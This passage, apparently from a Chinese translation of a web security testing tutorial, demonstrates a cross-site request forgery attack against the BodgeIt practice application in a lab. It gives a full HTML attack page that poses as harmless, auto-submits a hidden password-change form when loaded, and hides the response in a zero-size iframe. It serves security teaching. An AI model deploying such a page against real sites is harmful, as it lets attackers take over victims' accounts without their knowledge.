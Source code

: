 1.  从攻击者的角度来看，最后这次尝试看起来更好；我们只需要受害者加载页面，请求就会自动发送，但接着受害者会看到“Your password has been changed”消息，这肯定会引起警觉。

1.  我们可以通过让攻击页面在同一页面的不可见框架中加载响应来进一步改进该攻击页面。有很多方法可以做到这一点；一种快速而简单的方法是将框架的大小设置为 `0`。我们的文件将如下所示：

```
<html>
<script>
function submit_form()
{
 document.getElementById('form1').submit();
}
</script>
<body onload="submit_form()">
<h1>A completely harmless page</h1>
You can trust this page.
Nothing bad is going to happen to you or your BodgeIt account. 
<form id="form1" action="http://192.168.56.11/bodgeit/password.jsp" method="POST" target="target_frame">
<input name="password1" value="csrfpassword1" type="hidden">
<input name="password2" value="csrfpassword1" type="hidden">
</form>
<iframe name="target_frame" height="0%" witdht="0%">
</iframe>
</body>
</html>
```

请注意，表单的 target 属性是下面定义的 `iframe`，而且这个框架的 `height` 和 `width` 都是 `0%`。

1.  在启动会话的浏览器中加载新页面。此截图显示了使用浏览器的开发者工具检查页面时的外观：

![](img/a8964913-8631-43d1-a3ca-67a87d6c916f.png)
